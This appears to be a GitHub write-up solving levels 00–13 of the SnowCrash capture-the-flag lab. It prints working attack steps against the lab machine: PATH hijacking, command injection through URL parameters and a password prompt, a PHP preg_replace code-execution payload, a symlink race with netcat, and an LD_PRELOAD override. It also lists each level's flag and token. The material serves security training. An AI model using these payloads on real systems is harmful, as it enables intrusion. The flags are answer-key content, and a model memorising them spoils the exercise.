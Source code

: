 # 42snow_crash
## Level 00

- **Command**: `find / -user flag00 2>/dev/null`
- **File Content**: `cat /usr/sbin/john` yields `cdiiddwpgswtgt`
- **Decryption**: Caesar cipher decryption of `cdiiddwpgswtgt` gives `nottoohardhere`
- **Flag**: `x24ti5gi3x0ol2eh4esiuxias`

## Level 01

- **Encrypted Password**: `42hDRfypTqqnw`
- **Details**: Uses DES for encryption. The password for DES encryption (mode 1500 in hashcat) is `abcdefg`.
- **Flag**: `f2av5il02puano7naaf6adaaf`

## Level 02

- **Task**: Analyze a pcap file in Wireshark.
- **Password Reconstruction**: Password `ft_wandr...NDRel.L0L` with incorrect deletion attempts, corrected to `ft_waNDReL0L`.
- **Flag**: `kooda2puivaav1idi4f57q8iq`

## Level 03

- **Solution**: Create a script named "echo" that executes `getflag`.
  ```sh
  exec getflag
  ```
  Set the PATH to include the script directory.
  ```sh
  export PATH=/tmp:$PATH
  ```
- **Flag**: `qi0maab88jeaj46qoumi7maus`

## Level 04

- **Vulnerability**: Web injection.
- **Solution**: Access `http://192.168.1.31:4747/?x=$(getflag)`.
- **Flag**: `ne2searoevaevoem4ov4ar8ap`

## Level 05

- **Command**: `find / -user flag05 -type f -exec ls -lahh {} \; 2> /dev/null` to find the script
- **Task**: Locate a script executed by `flag05` and append a command to write the flag to `/tmp/out`.
  ```sh
  getflag > /tmp/out
  ```
  Monitor `/tmp/out` for the flag.
- **Flag**: `viuaaale9huek52boumoomioc`

## Level 06

- **Resources**:
  - [Understanding preg_replace filtering exploitation](https://security.stackexchange.com/questions/151142/understanding-preg-replace-filtering-exploitation)
  - [Identify and execute PHP code on a string](https://stackoverflow.com/questions/6103175/identify-and-execute-php-code-on-a-string)
- **Solution**: Use the input `[x {${shell_exec(getflag)}}]` in `/tmp/in`. The `${{}}` syntax allows for expression evaluation.
- **Execution**: `./level06 /tmp/in`
- **Flag**: `wiok45aaoguiboiki2tuin6ub`

## Level 07
- **Solution**: Inject env variable called LOGNAME
- **Execution**: `LOGNAME='$(getflag)' ./level07`
- **Flag**: `fiumuikeil55xe9cu4dood66h`

## Level 08
- **Solution**: make a symlink from token file as the level08 prgram compare filename
- **Execution**: ln -s token /tmp/dddw && ./level08 /tmp/dddw
- `quif5eloekouj29ke0vouxean`
- **Flag**: `25749xKZ8L7DkSCwJkT9dyv6f`

## Level 09
- **Solution**: write a ugly c script
- **Execution**: run c script
- **Output**: `f3iji1ju5yuevaus41q1afiuq`
- **Flag**: `s5cAJpM8ev6XHw998pRWG728z`


## Level 10
```sh
#!/bin/bash
while :
do
	/home/user/level10/level10 /tmp/data 127.0.0.1
  sleep 0.1
done

#!/bin/bash
while :
do
	nc -l 6969
  sleep 0.1
done

#!/bin/bash
touch /tmp/fake_token
while :
do
	ln -s /tmp/fake_token /tmp/data
  ln -s /home/user/level10/token /tmp/data
  sleep 0.1
done

```
- **Solution**: write a ugly c script
- **Execution**: run c script
- **Output**: `woupa2yuojeeaaed06riuj63c`
- **Flag**: `feulo4b72j7edeahuete3no7c`


## Level 11
- **Solution**: Inject shell command into the password
```sh
level10@SnowCrash:~$ nc 127.0.0.1 5151
Password: $(getflag > /tmp/out)
Erf nope..
level10@SnowCrash:~$ cat /tmp/out
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
- **Flag**: `fa6v5ateaw21peobuub8ipe6s`

## Level 12
- **Solution**: Inject schell script path to url and escape it
- **Execution**: `curl 'http://192.168.1.31:4646/?x=\`/*/B\``
```sh
level12@SnowCrash:~$ egrep "`/tmp/B`" /tmp/xd
egrep: /tmp/xd: No such file or directory
level12@SnowCrash:~$ cat /tmp/B
#!/bin/bash
getflag > /tmp/flag
level12@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
level12@SnowCrash:~$ egrep "`/tmp/B`" /tmp/xd
egrep: /tmp/xd: No such file or directory
level12@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
level12@SnowCrash:~$ cat /tmp/B
#!/bin/bash
getflag > /tmp/flag
```


## Level 13
- **Solution**: Create a shared library to override the `getuid` function.
- **Execution**: `gdb level13` and set the `LD_PRELOAD` environment variable to the shared library.
- **Flag**: `2A31L79asukciNyi8uppkEuSx`
```sh
level13@SnowCrash:/tmp$ export export LD_PRELOAD=/path/to/mygetuid.so^C
level13@SnowCrash:/tmp$ export LD_PRELOAD=/tmp/mygetuid.so
level13@SnowCrash:/tmp$ cd
level13@SnowCrash:~$ level13
UID 2013 started us but we we expect 4242
level13@SnowCrash:~$ gdb level13
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/user/level13/level13...(no debugging symbols found)...done.
(gdb) set environment LD_PRELOAD /tmp/mygetuid.so
(gdb) r
Starting program: /home/user/level13/level13
your token is 2A31L79asukciNyi8uppkEuSx
[Inferior 1 (process 26970) exited with code 050]
(gdb)
```